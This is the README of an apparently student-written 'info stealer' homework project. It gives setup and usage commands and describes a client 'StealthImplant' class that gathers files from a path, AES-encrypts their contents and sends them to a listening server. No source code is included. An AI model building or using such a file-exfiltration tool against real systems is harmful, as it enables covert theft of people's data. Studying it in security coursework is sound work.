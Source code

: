 # Info stealer

# Installation

- first create the virtual environment. run `python3 -m venv venv`

- activate it. run `source venv/bin/activate`

- install the library you need. run `pip install pycryptodome`

# Example usage: 

## Client

- `python3 tmp363 <server_ip> <server_port>

## Server

- `python3 server363 <ip> <port>`

# Description

## Client

my tmp363 has a StealthImplant class which does what the hw doc ask us to do. First it walk through the `source` we initialize it with, to it will get all the files or files inside directory we want, to a list. Later, we have another function that will write the content of these value into the cache which will be encrypt later using AES and send to server.

## Server

It basically use socket to retrieve data from the client


